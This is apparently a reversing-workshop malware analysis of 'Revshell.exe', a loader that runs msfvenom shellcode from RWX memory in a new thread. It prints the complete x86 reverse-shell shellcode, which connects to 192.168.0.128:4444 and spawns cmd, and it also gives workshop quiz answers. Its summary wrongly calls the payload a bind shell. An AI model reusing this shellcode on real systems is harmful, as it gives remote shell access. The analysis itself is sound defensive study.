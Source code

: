 ```yaml
---
title: "RevShell"
date: 2025-1-28
categories: [Malware Analysis,Malware-Analysis-and-Reversing-Workshop]
tags: [Malware Analysis,Malware-Analysis-and-Reversing-Workshop]
---
```


## Executive Summary

The method of found involves using msfvenom to generate a payload that creates a bind shell for remote access, which is then embedded into a program that hides its console window, allocates memory for the payload, and executes it through a new thread.

---

### Sample information

| **Attribute**         | **Value**                                                                                      |
|-------------------------|----------------------------------------------------|
| **File name**           | Revshell.exe                                       |
| **File size**           | 10 KB                                              |
| **File type**           | Executive Application                              |
| **MD5**                 | e007490bf6a65e754902fa7a46bf1e31                   |
| **SHA1**                | d10c5b4eef622b728ebbc035727ae160fd580a26           |
| **SHA256**              | 137562a049e2d6aef2310070435e623dea623b2b5363beea083f5a28323a4538 |
| **Packer / compiler info** | N/A                                             |
| **Compile time**        | Fri May 17 14:52:52 2024 (UTC)                     |

---

## Case-Specific Requirements

### **Environment**
- **Operating System:** Windows

### **Tools Used**
- **IDA**  
- **APIMonitor**  
- **ProcMon**

---

## Static Analysis
Entering the main using IDA. The code starts the line with hides the application's console window using FindWindowA to get a handle to the console window and ShowWindow with the parameter 0 to hide it.

![img](assets/11-Revshell.exe/image212.png)

A buffer v7 is created to store data, and qmemcpy is used to copy 325 bytes from a memory address unk_402128 into this buffer.

Memory is allocated using VirtualAlloc with read, write, and execute permissions ‘0x40’ for storing the copied data.

After copying the buffer into the allocated memory, a thread is created using CreateThread, which executes the code at the allocated memory address ‘v4’.

Finally, the program waits indefinitely for the thread to finish using WaitForSingleObject. The operations of these code performs dynamic execution of a payloads in memory.

![img](assets/11-Revshell.exe/image213.png)
 
The starting hex was ‘fc’ followed with ‘e8’,’82’ and so one. Extract all the hex would be like:

```
fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 14 8b 72 28 0f b7 4a 26 31 ff ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52 10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1 51 8b 59 20 01 d3 8b 49 18 e3 3a 49 8b 34 8b 01 d6 31 ff ac c1 cf 0d 01 c7 38 e0 75 f6 03 7d f8 3b 7d 24 75 e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a 8b 12 eb 8d 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 ff d5 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 05 68 c0 a8 00 80 68 02 00 11 5c 89 e6 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 68 63 6d 64 00 89 e3 57 57 57 31 f6 6a 12 59 56 e2 fd 66 c7 44 24 3c 01 01 8d 44 24 10 c6 00 44 54 50 56 56 56 46 56 4e 56 56 53 56 68 79 cc 3f 86 ff d5 89 e0 4e 56 46 ff 30 68 08 87 1d 60 ff d5 bb f0 b5 a2 56 68 a6 95 bd 9d ff d5 3c 06 7c 0a 80 fb e0 75 05 bb 47 13 72 6f 6a 00 53 ff d5 00 00 00 00
```
 
Turn the empty space into ‘\x’:

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x00\x00\x00\x00
```

Google dork first 8 byte:

![img](assets/11-Revshell.exe/image214.png)

It was a common ‘msfvenom’ of x86 program for tcp encoded

![img](assets/11-Revshell.exe/image215.png)

---

##	 Dynamic Analysis

Using APIMonitor and can see the API load and created a Thread.

![img](assets/11-Revshell.exe/image216.png)

Checking the ProcMon, the Thread was created before an TCP connection attempt to connect with the machine existed.

![img](assets/11-Revshell.exe/image217.png)

TCP attempt on the port 4444:

![img](assets/11-Revshell.exe/image218.png)

---

##	 IOCs

| IOC                                                                                          | Type                                |
|---------------------------------------------------------------------------------------------|-------------------------------------|
|  192[.]168[.]0[.]128[:]4444	|  IP:PORT  |

---
 
##	 Additional Notes

- **What is the size (in hex) of the shellcode bytes found in the malware?**
  - `145`

- **What is the virtual address of the shellcode reside in the program?**
  - `402128`

- **What is the WinAPI that is used to run the shellcode?**
  - `CreateThread`

- **How many parameters does VirtualAlloc take in the code?**
  - `4`
